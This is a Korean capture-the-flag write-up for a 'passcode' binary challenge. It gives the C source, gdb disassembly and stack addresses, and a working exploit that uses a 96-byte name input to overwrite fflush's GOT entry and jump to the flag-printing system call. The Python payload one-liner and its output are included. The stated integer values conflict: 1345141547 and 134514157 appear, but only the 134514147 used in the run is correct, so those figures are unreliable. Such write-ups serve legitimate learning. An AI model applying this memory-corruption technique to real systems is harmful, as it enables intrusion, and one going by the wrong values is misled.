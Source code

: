# passcode
---

c코드는 다음과 같다.
```c
    #include <stdio.h>
    #include <stdlib.h>
    
    void login(){
    	int passcode1;
    	int passcode2;
    
    	printf("enter passcode1 : ");
    	scanf("%d", passcode1);
    	fflush(stdin);
    
    	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    	printf("enter passcode2 : ");
    	scanf("%d", passcode2);
    
    	printf("checking...\n");
    	if(passcode1==338150 && passcode2==13371337){
    		printf("Login OK!\n");
    		system("/bin/cat flag");
    	}
    	else{
    		printf("Login Failed!\n");
    		exit(0);
    	}
    }
    
    void welcome(){
    	char name[100];
    	printf("enter you name : ");
    	scanf("%100s", name);
    	printf("Welcome %s!\n", name);
    }
    
    int main(){
    	printf("Toddler's Secure Login System 1.0 beta.\n");
    
    	welcome();
    	login();
    
    	// something after login...
    	printf("Now I can safely trust you that you have credential :)\n");
    	return 0;	
    }
```
`login()`에서 `scanf()`함수 부분에 passcode1과 passcode2에 &가 붙어있지 않다는 사실을 알 수 있다.

때문에 `login()`에 있는 `scanf()`로는 passcode1과 passcode2의 값을 바꿀 수 없다. 하지만 `welcome()`에서 100개의 문자를 받기 때문에 여기서 미리 값을 써놓으면 된다.

---

gdb를 통해서 분석해보자.
```gdb
    (gdb) disas welcome
    Dump of assembler code for function welcome:
    ...
       0x08048625 <+28>:	call   0x8048420 <printf@plt>
       0x0804862a <+33>:	mov eax,0x80487dd
       0x0804862f <+38>:	lea edx,[ebp-0x70]
       0x08048632 <+41>:	mov DWORD PTR [esp+0x4],edx
       0x08048636 <+45>:	mov DWORD PTR [esp],eax
       0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
    ...   
    End of assembler dump.
```
`welcome()`에서 보면 **ebp-0x70**이 name의 위치인 것을 알 수 있다.
```gdb
    (gdb) disas login
    Dump of assembler code for function login:
    ...
       0x08048572 <+14>:	call   0x8048420 <printf@plt>
       0x08048577 <+19>:	mov eax,0x8048783
       0x0804857c <+24>:	mov edx,DWORD PTR [ebp-0x10]
       0x0804857f <+27>:	mov DWORD PTR [esp+0x4],edx
       0x08048583 <+31>:	mov DWORD PTR [esp],eax
       0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
    ...
       0x080485a0 <+60>:	call   0x8048420 <printf@plt>
       0x080485a5 <+65>:	moveax,0x8048783
       0x080485aa <+70>:	mov edx,DWORD PTR [ebp-0xc]
       0x080485ad <+73>:	mov DWORD PTR [esp+0x4],edx
       0x080485b1 <+77>:	mov DWORD PTR [esp],eax
       0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
    ...
    End of assembler dump.
```
또 `login()`에서 보면 **ebp-0x10**와 **ebp-0xc**가 각각 passcode1과 passcode2인 것을 알 수 있다. `welcome()+38`, `login()+24`, `login()+70`에 각각 break를 걸고 주소를 확인해보면 다음과 같다.
```gdb
    (gdb) r
    Starting program: /home/passcode/passcode 
    Toddler's Secure Login System 1.0 beta.
    
    Breakpoint 1, 0x0804862f in welcome ()
    (gdb) p/x $ebp-0x70
    $1 = 0xff8e46a8
    (gdb) c
    Continuing.
    enter you name : sjy0175
    Welcome sjy0175!
    
    Breakpoint 3, 0x0804857c in login ()
    (gdb) p/x $ebp-0x10
    $2 = 0xff8e4708
    (gdb) c
    Continuing.
    enter passcode1 : 0101 
    
    Program received signal SIGSEGV, Segmentation fault.
    0xf7583bc7 in _IO_vfscanf () from /lib/i386-linux-gnu/libc.so.6
    (gdb) p/x $ebp-0xc
    $3 = 0xff8e469c
```
이때 세번째 주소는 segmentation fault가 뜬시점에서 ebp값을 기준으로 계산된 주소이기 때문에 유효하지 않다. passcode2의 주소를 passcode1+0x4로 계산한다면 각각의 주소는 다음과 같다.

**name: 0xff8e46a8** <br>
**passcode1: 0xff8e4708** <br>
**passcode2: 0xff8e470c**

바로 passcode1과 passcode2의 값을 덮으면 좋을텐데, 0xff8e4708-0xff8e46a8=0x60이기 때문에 100개의 문자만 받아서 passcode1의 데이터만 바꿀 수 있다. 하지만 passcode1의 데이터를 바꾸어 놓으면 passcode1의 데이터를 받을 때 원하는 주소에 원하는 값을 쓸 수 있게 된다.

---

이를 이용해서 다음과 같이 익스플로잇 할 것이다. name을 쓸 때를 이용해서 passcode1에 `fflush()`의 got주소를 넣고, passcode1을 입력 받을 때 `fflush()`의 got에 `login()`에서 `system("/bin/cat flag")`를 실행하는 부분의 주소를 쓸 것이다. 이를 위해서 `fflush()`와 `login()`에서 `system()`부분의 주소를 구해보자.
```gdb
    (gdb) x/i 0x8048430
       0x8048430 <fflush@plt>:	jmp*0x804a004


    (gdb) disas login
    Dump of assembler code for function login:
    ...
       0x080485e3 <+127>:	mov DWORD PTR [esp],0x80487af
       0x080485ea <+134>:	call   0x8048460 <system@plt>
    ...
    End of assembler dump.
```
때문에 다음과 같이 입력하면 된다.

**'A'\*96+'\x04\xa0\x04\x08'** <br>
**1345141547**

134514157는 `system()`부분의 주소인  0x80485e3를 정수형태로 변환한 것이다.
```bash
    passcode@prowl:~$ (python -c "print 'A'*96+'\x04\xa0\x04\x08'";cat) | ./passcode
    Toddler's Secure Login System 1.0 beta.
    enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�!
    134514147
    Sorry mom.. I got confused about scanf usage :(
    enter passcode1 : Now I can safely trust you that you have credential :)
```
**flag: Sorry mom.. I got confused about scanf usage :(**



?passcode1 passcode2 위치가 바뀌어야 하지 않는가?
